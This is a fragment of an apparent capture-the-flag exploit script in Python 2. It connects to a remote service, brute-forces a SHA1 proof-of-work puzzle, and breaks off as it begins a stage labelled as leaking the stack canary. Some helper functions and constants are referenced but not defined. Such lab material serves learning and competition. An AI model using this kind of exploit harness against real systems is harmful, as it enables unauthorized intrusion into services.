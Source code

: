 ```python

def interact(s):
    t = Telnet()
    t.sock = s
    t.interact()

def sha1(txt):
    if len(txt) != 29:
        print "ERROR: txt should be 29 characters long"
    return hashlib.sha1(txt).hexdigest()

def possibilities():
    """ x is always an hex string """
    r = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f']
    for i1 in r:
        for i2 in r:
            for i3 in r:
                for i4 in r:
                    for i5 in r:
                        yield i1+i2+i3+i4+i5

def check_hash(h):
    """ Last 26 bits of the hash have to be set"""
    if(h[-6:] == "ffffff"):
        if int(h[-7:-6], 16) & 0x3 == 0x3:
            return True
        else:
            print h, "was close."

    return False


def go():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    ADDRESS = (HOST, PORT)
    s.connect(ADDRESS)

    # Solve the initial challenge (only if remote)
    if not TESTING_LOCAL:
        recv_until(s, "Solve a puzzle: find an x such that 26 last bits of SHA1(x) are set, len(x)==29 and x[:24]=='")
        x_first_24 = recv_until(s, "'")[:-1]
        print "Trying for x = %s_____" % x_first_24
        res = ""
        for x_last_5 in possibilities():
            x = x_first_24 + x_last_5
            if check_hash(sha1(x)):
                print "x =", x, "; sha1(x) =", sha1(x)
                res = x
                break

        # There was not solution, we need to restart
        if res == "":
            print RED("... [FAILED]")
            s.close()
            return -1
        else:
            send(s, x)

    # 1. First lets leak the whole stack
    print "**************************"
    print "*** LEAKING THE CANARY ***"
    print "**************************"
```